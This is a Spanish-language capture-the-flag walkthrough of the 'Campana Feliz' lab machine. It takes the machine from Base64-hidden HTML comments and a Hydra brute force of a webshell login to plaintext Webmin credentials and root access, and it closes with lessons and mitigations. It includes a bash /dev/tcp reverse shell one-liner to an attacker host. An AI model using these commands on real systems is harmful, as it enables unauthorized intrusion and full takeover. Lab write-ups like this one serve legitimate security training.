### Información General

| Campo             | Detalle                                                                  |
| ----------------- | ------------------------------------------------------------------------ |
| Plataforma        | TheHackersLabs                                                           |
| Máquina           | Campana Feliz                                                            |
| IP                | 192.168.241.199                                                          |
| Sistema operativo | Linux Debian 12 (inferido del paquete `deb12` de OpenSSH)                |
| Dificultad        | Facil                                                                    |
| Categorías        | Enumeración web, fuerza bruta, post-explotación, escalada de privilegios |
| Fecha             | Noviembre 2026                                                           |

### Resumen del Ataque

La máquina expone tres servicios: SSH (22), un Apache en el puerto 8088 y Webmin en el puerto 10000. En el código fuente de la página principal hay dos comentarios codificados en Base64. Uno de ellos decodifica a un poema infantil y el otro contiene el nombre de usuario `campana`. Un directorio oculto expone `shell.php`, un panel de login con una contraseña débil que se obtiene por fuerza bruta. Tras entrar, se ejecutan comandos desde el propio panel y se encuentra en `/opt` un archivo con credenciales de Webmin en texto plano. Webmin proporciona una shell que se ejecuta como `root`, lo que da acceso completo a la máquina.

### Técnicas Usadas

- Escaneo de puertos con Nmap (SYN scan, detección de versiones y scripts por defecto)
- Decodificación de Base64 en comentarios HTML
- Fuzzing de directorios con Gobuster
- Fuerza bruta sobre formulario web con Hydra (`http-post-form`)
- Ejecución de comandos a través de una webshell expuesta
- Enumeración de archivos sensibles en `/opt`
- Acceso a Webmin con credenciales reutilizadas y uso de su módulo Command Shell
- Reverse shell con Bash y listener con Netcat

### Desarrollo

#### 1. Escaneo de puertos

```
sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oN port 192.168.241.199
```



2. Detección de versiones y scripts

```
nmap -p 22,8088,10000 -sC -sV -oN allport 192.168.241.199
```





En el puerto 10000 la cabecera `Server: MiniServ` y la cookie `testing=1` indican que se trata de Webmin. Nmap no lo identificó automáticamente, por eso aparece como `snet-sensor-mgmt?`.

3. Página principal y comentarios en el código fuente

```
http://192.168.241.199:8088/
```

En el código fuente aparecen dos comentarios codificados en Base64:



Se decodifica el primero:

```
echo "Q2FtcGFuYSBzb2JyZSBjYW1wYW5hCgpZIHNvYnJlIGNhbXBhbmEgdW5hCgpBc8OzbWF0ZSBhIGxhIHZlbnRhbmEKClZlcsOhcyBlbCBuacOxbyBlbiBsYSBjdW5hCg==" | base64 -d
```



El texto es un poema infantil tradicional. No aporta credenciales, pero confirma que el comentario es intencionado y que hay más contenido codificado.

El segundo comentario se decodifica así:

```
echo "Q2FtcGFuYSBDYW1wYW5hIENhTXBBTkEgQ2FNcGFOYQo=" | base64 -d             
```  



4. Fuzzing de directorios

```
gobuster dir -u http://192.168.241.199:8088/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,md,txt -t 125
```



El archivo `shell.php` responde con un formulario de login.

```
http://192.168.241.199:8088/shell.php
```



5. Fuerza bruta sobre el login de `shell.php`

```
hydra -l campana -P /usr/share/wordlists/rockyou.txt 192.168.241.199 -s 8088 http-post-form "/shell.php:username=^USER^&password=^PASS^:Username or password invalid"
```



6. Webshell en `shell.php`

```
http://192.168.241.199:8088/shell.php
```

Tras autenticarse, `shell.php` funciona como consola para ejecutar comandos en el servidor. Desde ahí se enumera `/opt`:



```
ls -la /opt
```



Dentro de `/opt` hay un archivo llamado `CMS Webmin.txt`:

```
cat /opt/CMS\ Webmin.txt
```



Contiene la URL del panel de Webmin y las credenciales:

```
url: https://IP:10000
login: santaclaus / FelizNavidad2024
```

7. Acceso a Webmin como `root`

```
https://192.168.241.199:10000/
```

Se inicia sesión con las credenciales encontradas.





Dentro de Webmin se entra en **Tools** y después en **Command Shell**. Los comandos que se ejecutan ahí corren con los privilegios del proceso de Webmin, que en esta máquina es `root`.



#### 8. Reverse shell

Para trabajar con una terminal más cómoda se lanza una reverse shell desde el Command Shell de Webmin:

```
bash -c 'exec bash -i &>/dev/tcp/192.168.241.130/1234 <&1'
```



```
nc -lvnp 1234       
```



9. Flag de usuario

```
root@debian:~# cd /home
root@debian:/home# cd bob
root@debian:/home/bob# ls
```



```
root@debian:/home/bob# cat user.txt
cat user.txt
```



10. Flag de root

```
root@debian:/home/bob# cd /root
root@debian:~# cat root.txt
cat root.txt
```



### Lecciones Aprendidas

- Los comentarios HTML pueden contener datos sensibles, aunque estén codificados. Codificar no es cifrar, y Base64 se revierte con un solo comando.
- Un panel de login expuesto sin límite de intentos y con contraseña de diccionario se rompe en pocos minutos con Hydra y `rockyou.txt`.
- Una webshell en producción equivale a ejecución de comandos para cualquiera que conozca su contraseña.
- Guardar credenciales en texto plano en directorios accesibles como `/opt` permite moverse lateralmente sin ningún exploit.
- Webmin ejecutado como `root` y accesible por red convierte cualquier credencial válida en acceso total al sistema.

### Medidas de Mitigación

- Eliminar comentarios con información sensible del HTML y no incluir datos codificados en páginas de producción.
- Eliminar `shell.php` o cualquier webshell del servidor web. Si es imprescindible, restringirla por IP y con autenticación fuerte.
- Aplicar contraseñas de alta entropía y límites de intentos en formularios de login (`fail2ban` o rate limiting en el servidor web).
- No almacenar credenciales en texto plano en el sistema de archivos. Usar gestores de secretos y permisos restrictivos.
- Restringir el acceso a Webmin (puerto 10000) a redes de administración, o deshabilitarlo si no se usa. Activar la verificación de referer e IP en su configuración.
- Ejecutar Webmin con un usuario sin privilegios cuando sea posible, y no reutilizar credenciales entre servicios.
- Deshabilitar el login directo de `root` por SSH (`PermitRootLogin no`).
